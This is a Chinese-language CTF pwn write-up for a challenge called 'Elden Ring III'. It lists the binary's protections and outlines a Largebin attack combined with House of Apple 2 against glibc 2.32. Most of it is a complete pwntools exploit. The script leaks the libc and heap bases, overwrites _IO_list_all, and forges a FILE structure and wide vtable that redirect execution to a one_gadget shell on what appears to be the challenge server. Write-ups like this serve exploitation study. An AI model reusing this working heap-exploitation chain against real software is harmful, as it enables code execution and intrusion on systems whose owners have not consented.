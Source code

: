 # Elden Ring III

*write some large notes*

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |

## 解题思路

glibc 2.32  
反编译发现只能分配large bin，那就干脆学一下Largebin attack和House of Apple吧，
以后打高版本libc都要用到

我会在参考文献一栏列出优质的博客，没有它们，我不能做出这题！还有就是在打Apple的时候，
要想进入overflow分支，还需要伪造的IO_FILE里`_IO_write_ptr > _IO_write_base`

另，自glibc 2.38开始，调用链发生变化，`_IO_flsuh_all_lockp`已更名为`_IO_flsuh_all`，
但是apple2仍然能打，不影响

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'

def payload(lo:int):
    global sh
    if lo:
        sh = process('./eldering3')
        if lo & 2:
            gdb.attach(sh, gdbscript='b show_note')
    else:
        sh = remote('139.196.183.57', 30273)
    libc = ELF('eldering3s/libc.so.6')
    elf = ELF('eldering')

    def addn(idx:int, size:int):
        sh.sendlineafter(b'>', b'1')
        sh.sendlineafter(b'Index', str(idx).encode())
        sh.sendlineafter(b'Size', str(size).encode())

    def deln(idx:int):
        sh.sendlineafter(b'>', b'2')
        sh.sendlineafter(b'Index', str(idx).encode())

    def edit(idx:int, content:bytes):
        sh.sendlineafter(b'>', b'3')
        sh.sendlineafter(b'Index', str(idx).encode())
        sh.sendafter(b'Content', content)

    def show(idx:int) -> bytes:
        sh.sendlineafter(b'>', b'4')
        sh.sendlineafter(b'Index: ', str(idx).encode())
        return sh.recv(7)

    def withdraw(): # quit and exit is Python builtin functions
        sh.sendlineafter(b'>', b'5')

    # leak libc and heap
    addn(0, 0x600)
    addn(1, 0x600) # guard chunk (prevent consolidating)
    addn(2, 0x600)
    addn(3, 0x600) # guard chunk
    deln(0)        # fd is around libc in Unsorted bin
    edit(0, b'\n') # 1st char is 0, so we had to make the address leak-able
    ret = show(0)
    ret = b'\0' + ret[1:6]
    edit(0, b'\0') # restore original value
    deln(2)        # fd of chunk 2 is chunk 0
    heap = show(2)
    deln(3)
    deln(1)        # restore empty heap

    dumpArena = libc.symbols['__malloc_hook'] + (libc.symbols['__malloc_hook'] - libc.symbols['__realloc_hook']) * 2
    mainArena = u64(ret[:6] + b'\0\0') - 0x60 # sub unsorted bin offset
    libcBase = mainArena - dumpArena
    success(f'\x1b[33mleak libcBase: {hex(libcBase)}\x1b[0m')
    ioListAll = libcBase + libc.symbols['_IO_list_all']
    wfileJumps = libcBase + libc.symbols['_IO_wfile_jumps']

    heapBase = u64(heap[:6] + b'\0\0') - 0x290
    success(f'\x1b[33mleak heapBase: {hex(heapBase)}\x1b[0m')

    # large bin attack
    fd = bk = libcBase + dumpArena + 0x4d0
    fdNext = heapBase + 0x290 # original values
    bkNext = ioListAll - 0x20 # write chunk 1 addr on _IO_list_all
    addn(0, 0x620)
    addn(15, 0x508)           # guard chunk
    addn(1, 0x610)
    addn(14, 0x508)           # guard chunk
    deln(0)                   # now in unsorted bin
    addn(2, 0x630)            # put chunk 0 in large bin
    deln(1)                   # now in unsorted bin
    edit(0, p64(fd) + p64(bk) + p64(fdNext) + p64(bkNext))
    addn(13, 0x630)           # put chunk 1 in large bin, trigger arbitrary write

    # house of apple 2
    forceChunk = heapBase + 0xdd0 # & chunk 1.prev_size
    fakeFile = FileStructure()    # _flags = 0, _IO_read_ptr = 0x621
    fakeFile.vtable = wfileJumps
    fakeFile._IO_write_ptr = 1
    fakeFile._wide_data = forceChunk + 0xe0
    # fakeFile._lock = lock
    fakeWideData = b'\0'*0xe0 + p64(forceChunk + 0xe0 + 0xe8) # 0xe0 bytes of 0 and _wide_vtable
    oneGadget = libcBase + 0xdf54f
    fakeWfileJumpTable = b'\0'*0x68 + p64(oneGadget)          # 0x68 bytes of 0 and __do_allocate
    # note that _flags and _IO_read_ptr is filled by chunk structure,
    # so we need to exclude them to keep the correct alignment
    edit(1, bytes(fakeFile)[16:] + fakeWideData + fakeWfileJumpTable)

    withdraw()
    sh.clean()
    sh.interactive()
```

## 参考文献

1. [Largebin Attack典例](https://www.anquanke.com/post/id/244018)
2. [House of Apple 2官方示例](https://bbs.kanxue.com/thread-273832.htm)
3. [House of Apple 2实操&调用链](https://ywhkkx.github.io/2022/11/10/House%20Of%20Apple-2.34-64/)
